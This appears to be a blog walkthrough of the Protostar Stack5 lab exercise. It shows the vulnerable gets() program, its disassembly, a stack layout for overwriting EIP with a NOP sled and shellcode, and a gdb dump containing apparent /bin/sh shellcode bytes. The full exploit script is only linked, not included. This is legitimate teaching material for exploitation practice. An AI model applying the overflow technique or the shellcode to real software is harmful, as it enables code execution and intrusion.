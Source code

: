 ```yaml
---
layout: post
title: Protostar Stack5 Walkthrough
permalink: /binary-exploitation-protostar-stack5-walkthrough/
---
```



# Walkthrough
Hello Guyz,
Today, Here I am going to share with you my walkthrough exploitation research, tools Stuff and Exploit That Can help you in completing Exploit-Exercise Protostar Level.

Basically, My Goal is Just to provide you hints, so that you can Understand all concepts on your own.

But If still after reading this hint post, you are not understanding concepts clearly and want to see Exploit Code And Other Details then you can visit my blog posts. [click here](http://www.bitforestinfo.com/2018/04/binary-exploitation-protostar-stack5.html)


    
# Source Code

{% highlight c %}

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}




{% endhighlight %}


# Hints



{% highlight bash %}
Stack5 is a standard buffer overflow, this time introducing shellcode.

This level is at /opt/protostar/bin/stack5

Hints

At this point in time, it might be easier to use someone elses shellcode
If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
remove the int3s once your shellcode is done.

{% endhighlight %}



# Disassembly Of Code


{% highlight assembly %}

(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   %ebp
0x080483c5 <main+1>:    mov    %esp,%ebp
0x080483c7 <main+3>:    and    $0xfffffff0,%esp
0x080483ca <main+6>:    sub    $0x50,%esp   < ============ Creating Space ONto stack
0x080483cd <main+9>:    lea    0x10(%esp),%eax  < ======== Starting Point to Insert Values Into Create Space Buffer
0x080483d1 <main+13>:   mov    %eax,(%esp)      < ======== Load Argument
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt> <===== Call Function
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
End of assembler dump.

{% endhighlight %}




# Stack Status

{% highlight bash %}

0           16                                                    80         88    92    96             156
 ==========================================================================================================================
 Starting > |                   "A" * 64                          | Paddings | EBP | EIP |  NOPS * 60   |   Shellcode  |  
 ==========================================================================================================================
                                                                                      |_________________________^

{% endhighlight %}




# Registers Status & Info

{% highlight bash %}

(gdb) info registers
eax            0xbffffc70       -1073742736
ecx            0xbffffc70       -1073742736
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffcbc       0xbffffcbc
ebp            0x42424242       0x42424242
esi            0x0      0
edi            0x0      0
eip            0x80483da        0x80483da <main+22>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) x/100x $esp
0xbffffcbc:     0xbffffcc0      0x90909090      0x90909090      0x90909090
0xbffffccc:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffcdc:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffcec:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffcfc:     0x315e1aeb      0x074688c0      0x5e891e8d      0x0c468908
0xbffffd0c:     0xf3890bb0      0x8d084e8d      0x80cd0c56      0xffffe1e8
0xbffffd1c:     0x69622fff      0x68732f6e      0xb7ff6200      0xb7eadb9b
0xbffffd2c:     0xb7ffeff4      0x00000001      0x08048310      0x00000000
0xbffffd3c:     0x08048331      0x080483c4      0x00000001      0xbffffd64
0xbffffd4c:     0x080483f0      0x080483e0      0xb7ff1040      0xbffffd5c
0xbffffd5c:     0xb7fff8f8      0x00000001      0xbffffe77      0x00000000
0xbffffd6c:     0xbffffe91      0xbffffea1      0xbffffeac      0xbffffece
0xbffffd7c:     0xbffffee1      0xbffffeeb      0xbffffef6      0xbfffff38
0xbffffd8c:     0xbfffff4c      0xbfffff5b      0xbfffff72      0xbfffff83
0xbffffd9c:     0xbfffff8c      0xbfffff97      0xbfffff9f      0xbfffffac
0xbffffdac:     0x00000000      0x00000020      0xb7fe2414      0x00000021
0xbffffdbc:     0xb7fe2000      0x00000010      0x0febfbff      0x00000006
0xbffffdcc:     0x00001000      0x00000011      0x00000064      0x00000003
0xbffffddc:     0x08048034      0x00000004      0x00000020      0x00000005
0xbffffdec:     0x00000007      0x00000007      0xb7fe3000      0x00000008
0xbffffdfc:     0x00000000      0x00000009      0x08048310      0x0000000b
0xbffffe0c:     0x00000000      0x0000000c      0x00000000      0x0000000d
0xbffffe1c:     0x00000000      0x0000000e      0x00000000      0x00000017
0xbffffe2c:     0x00000000      0x00000019      0xbffffe5b      0x0000001f
0xbffffe3c:     0xbfffffe2      0x0000000f      0xbffffe6b      0x00000000
(gdb) c
Continuing
{% endhighlight %}

For Working Exploit Script And Other Complete Details. [Check here](http://www.bitforestinfo.com/2018/04/binary-exploitation-protostar-stack5.html)



----

*Thanks For Visiting*

Have a nice day.
